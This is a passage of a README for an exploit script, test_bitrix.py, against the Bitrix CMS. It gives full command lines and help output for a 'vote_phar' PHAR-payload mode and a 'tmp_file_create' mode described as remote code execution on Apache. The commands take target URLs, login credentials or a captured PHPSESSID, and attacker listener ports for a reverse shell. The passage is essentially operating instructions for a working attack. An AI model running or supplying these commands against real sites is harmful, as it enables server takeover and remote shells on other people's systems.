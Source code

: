```console
usage: python3 test_bitrix.py vote_phar [-h] -p payload

options:
  -h, --help            show this help message and exit
  -p payload, --payload payload
                        Path to payload file

```

### Running RCE via Insecure Temporary File Creation

It works only with Apache. The .htaccess file is required to be present in the same directory as the Python3 exploit code.
Get user credentials regardless of privileges. Point out the login page in the parameter `-r`, port of the host that listens for web connection `--lport1`, port of the host that listens for reverse shell connection `--lport2`
```sh
python3 test_bitrix.py -t https://example.com tmp_file_create -r bitrix/components/bitrix/map.yandex.search/settings/settings.php?login=yes -l user -p 123456 --lhost 192.168.1.11 --lport1 8001 --lport2 9001
```
Create file cached-creds.txt in the same directory as the python script code, and write down PHPSESSID:sessid value, then run the command below
```sh
python3 test_bitrix.py -t https://example.com tmp_file_create --lhost 192.168.1.11 --lport1 8001 --lport2 9001
```

Display help for mode
```sh
python3 test_bitrix.py tmp_file_create -h
```

```console
usage: python3 test_bitrix.py tmp_file_create [-h] [-r PATH_LOGIN] [-l LOGIN] [-p PASSWORD] --lhost LHOST --lport1 LPORT1 --lport2 LPORT2 [-d DELAY_SECONDS] [-n N_REPS] [-i SITE_ID]

options:
  -h, --help            show this help message and exit
  -r PATH_LOGIN, --path_login PATH_LOGIN
                        Url path for login
  -l LOGIN, --login LOGIN
                        User login
  -p PASSWORD, --password PASSWORD
                        User password
  --lhost LHOST         IP address for reverse connection
  --lport1 LPORT1       Port of the host that listens for web connection
  --lport2 LPORT2       Port of the host that listens for reverse shell connection
  -d DELAY_SECONDS, --delay_seconds DELAY_SECONDS
                        Delay the deletion of uploaded files
  -n N_REPS, --n_reps N_REPS
                        Number of replicated files
  -i SITE_ID, --site_id SITE_ID
                        Site id
```
